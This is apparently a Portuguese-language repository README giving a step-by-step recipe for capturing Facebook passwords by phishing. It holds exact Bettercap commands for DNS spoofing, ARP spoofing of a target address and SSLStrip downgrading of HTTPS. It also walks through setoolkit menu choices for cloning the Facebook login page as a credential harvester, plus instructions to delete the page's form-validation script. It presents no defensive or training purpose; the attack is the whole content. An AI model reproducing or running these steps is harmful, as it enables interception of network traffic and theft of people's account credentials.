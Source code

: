 # Phishing para captura de senhas do Facebook

### Ferramentas

- Kali Linux (Sistema Operacional)
- setoolkit (ferramenta para captura dos dados - nativo do Kali Linux)
- Bettercap (ferramenta para mascarar URL com DNS spoof)

### Atualização e instalação de ferramentas no Kali Linux

- Passo 1 - Acesso root: ``` sudo su ```
- Passo 2 - Atualizando sistema operacional e repositórios: ``` apt update && sudo apt upgrade -y ```
- Passo 3 - Instalando o Bettercap: ``` apt install bettercap -y ```

### Configurando o DNS spoof no Bettercap

- Passo 1 - Verificando qual o nome da interface de rede: ``` ip a ```
- Passo 2 - Obtendo o endereço da máquina: ``` ifconfig ```
- Passo 3 - Executando o Bettercap no modo interativo: ``` bettercap -iface eth0 ```
- Passo 4 - Definindo o domínio a ser redirecionado: ``` set dns.spoof.domains http://face.book.com ```
- Passo 5 - Definindo o endereço de acesso da página: ``` set dns.spoof.address 192.168.1.13 ```
- Passo 6 - Ativando o DNS spoof: ``` dns.spoof on ```
- Passo 7 - Definindo o alvo do spoofing: ``` set arp.spoof.targets 192.168.1.11 ```
- Passo 8 - Ativando spoofing ARP (ataque MITM): ``` arp.spoof on ```
- Passo 9 - Ativando o SSLStrip (recurso que rebaixa conexões HTTPS para HTTP, possibilitando redirecionamento): ``` set http.proxy.sslstrip true ```
- Passo 10 - Definindo endereço IP do proxy: ``` set http.proxy.address 192.168.1.13 ```
- Passo 11 - Definindo porta do proxy: ``` set http.proxy.port 8080 ```
- Passo 12 - Ativando o proxy: ``` http.proxy on ```

### Configurando o Phishing no setoolkit

- Passo 1 - Iniciando o setoolkit: ``` setoolkit ```
- Passo 2 - Tipo de ataque: ``` 1) Social-Engineering Attacks ```
- Passo 3 - Vetor de ataque: ``` 2) Web Site Attack Vectors ```
- Passo 4 - Método de ataque: ``` 3) Credential Harvester Attack Method ```
- Passo 5 - Técnica de ataque: ``` 2) Site Cloner ```
- Passo 6 - Definindo IP do servidor: tecla enter
- Passo 7 - Definindo URL para clone: ```http://www.facebook.com```

### Removendo medidas anti-phishing da página clonada

- Passo 1 - Executando edição no arquivo index da página clonada: ``` nano /root/.set/web_clone/index.html ```
- Passo 2 - Buscar linha que valida os formulários e credenciais: ctrl + f ``` <script src= ```
- Passo 3 - Linha completa a ser removida: ``` <script src="https://static.xx.fbcdn.net/rsrc.php/v4/y0/r/w5OYqc0pmp2.js" data-bootloader-hash="lp6Cw4s" crossorigin="anonymous"></script> ```
- Passo 4 - Salvar alterações no arquivo: ctrl + o
- Passo 5 - Fechar arquivo: ctrl + x

### Resultados

![Alt text](./passwd.png "Optional title")
